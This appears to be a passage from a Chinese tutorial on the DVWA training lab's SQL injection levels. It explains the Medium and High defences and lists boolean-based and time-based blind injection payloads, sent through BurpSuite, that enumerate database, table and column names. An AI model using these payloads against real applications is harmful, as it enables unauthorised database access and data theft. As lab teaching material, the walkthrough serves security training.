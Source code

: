 说明users表的第一个字段长度为7个字符。

采用二分法即可猜解出各个字段名。

#### 5.猜解数据

同样采用二分法。


## Medium 级别破解

>查看源代码
![low级别代码](/img/SqlInjection/medium.png)
可以看到，Medium级别的代码利用mysql_real_escape_string函数对特殊符号
\x00,\n,\r,\,’,”,\x1a进行转义，同时前端页面设置了下拉选择表单，希望以此来控制用户的输入。   
![low级别代码](/img/SqlInjection/medium1.png)
    
    虽然前端使用了下拉选择菜单，但我们依然可以通过BurpSuite抓包改参数，提交恶意构造的查询参数
### 基于布尔的盲注
步骤和上面low级别的一样 这里就简单举几个例子
>抓包改参数id为`1 and length(database())=4 #`，显示存在，说明数据库名的长度为4个字符；

>抓包改参数id为`1 and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #`，显示存在，说明数据中的第一个表名长度为9个字符；

>抓包改参数id为`1 and (select count(column_name) from information_schema.columns where table_name= 0×7573657273)=8 #`，（0×7573657273为users的16进制），显示存在，说明uers表有8个字段

### 基于时间的盲注
步骤和上面low级别的一样 这里就简单举几个例子
>抓包改参数id为`1 and if(length(database())=4,sleep(5),1) #`，明显延迟，说明数据库名的长度为4个字符；

>抓包改参数id为`1 and if(length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9,sleep(5),1) #`，明显延迟，说明数据中的第一个表名长度为9个字符；

>抓包改参数id为`1 and if((select count(column_name) from information_schema.columns where table_name=0×7573657273 )=8,sleep(5),1) #`，明显延迟，说明uers表有8个字段。

## High 级别破解
>查看源代码
![low级别代码](/img/SqlInjection/high.png)
可以看到，High级别的代码利用cookie传递参数id，当SQL查询结果为空时，会执行函数sleep(seconds)，目的是为了扰乱基于时间的盲注。同时在 SQL查询语句中添加了LIMIT 1，希望以此控制只输出一个结果。
    
    虽然添加了LIMIT 1，但是我们可以通过#将其注释掉。但由于服务器端执行sleep函数，会使得基于时间盲注的准确性受到影响，这里我们只演示基于布尔的盲注：

### 基于布尔的盲注
步骤和上面low级别的一样 这里就简单举几个例子
>抓包将cookie中参数id改为`1’ and length(database())=4 #`，显示存在，说明数据库名的长度为4个字符；

>抓包将cookie中参数id改为`1’ and length(substr(( select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #`，显示存在，说明数据中的第一个表名长度为9个字符；

>抓包将cookie中参数id改为`1’ and (select count(column_name) from information_schema.columns where table_name=0×7573657273)=8 #`，（0×7573657273 为users的16进制），显示存在，说明uers表有8个字段。
